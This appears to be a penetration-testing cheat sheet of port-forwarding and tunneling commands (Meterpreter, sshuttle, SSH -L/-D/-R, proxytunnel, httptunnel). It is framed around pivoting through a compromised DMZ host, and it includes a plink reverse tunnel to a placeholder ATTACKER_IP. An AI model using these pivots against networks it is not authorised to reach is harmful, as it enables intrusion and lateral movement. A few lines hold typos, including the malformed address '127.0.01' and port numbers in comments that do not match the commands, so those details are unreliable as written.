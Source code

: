 ### Meterpreter
	meterpreter > portfwd add -l [local port] -r [target ip] -p [port]

### SSHUTTLE

	pip install sshuttle
	
	sshuttle -r user@host 10.10.10.10/24

### SSH: Local Port Forwarding

	# Listen on local port 8080 and forward incoming traffic to REMOT_HOST:PORT via SSH_SERVE2

	# Scenario: access a host that's being blocked by a firewall via SSH_SERVER;

	ssh -L 127.0.0.1:8080:REMOTE_HOST:PORT user@SSH_SERVER

### SSH: Dynamic Port Forwarding

	# Listen on local port 8080. Incoming traffic to 127.0.0.1:8080 forwards it to final destination via SSH_SERVE2
	
	# Scenario: proxy your web traffic through SSH tunnel OR access hosts on internal network via a compromised DMZ box;
	
	ssh -D 127.0.0.1:8080 user@SSH_SERVER

### SSH: Remote Port Forwarding

		# Open port 5555 on SSH_SERVER. Incoming traffic to SSH_SERVER:5555 is tunneled to LOCALHOST:3382
	
	# Scenario: expose RDP on non-routable network;
	
	ssh -R 5555:LOCAL_HOST:3389 user@SSH_SERVER
	
	plink -R ATTACKER:ATTACKER_PORT:127.0.01:80 -l root -pw pw ATTACKER_IP

### Proxy Tunnel

	# Open a local port 127.0.0.1:5555. Incoming traffic to 5555 is proxied to DESTINATION_HOST through PROXY_HOST:3122
	
	# Scenario: a remote host has SSH running, but it's only bound to 127.0.0.1, but you want to reach it;
	
	proxytunnel -p PROXY_HOST:3128 -d DESTINATION_HOST:22 -a 5555
	
	ssh user@127.0.0.1 -p 5555

### HTTP Tunnel: SSH Over HTTP

	# Server - open port 80. Redirect all incoming traffic to localhost:80 to localhost:22
	
	hts -F localhost:22 80
	
	# Client - open port 8080. Redirect all incoming traffic to localhost:8080 to 192.168.1.15:80
	
	htc -F 8080 192.168.1.15:80
	
	# Client - connect to localhost:8080 -> get tunneled to 192.168.1.15:80 -> get redirected to 192.168.1.15:22
	
	ssh localhost -p 8080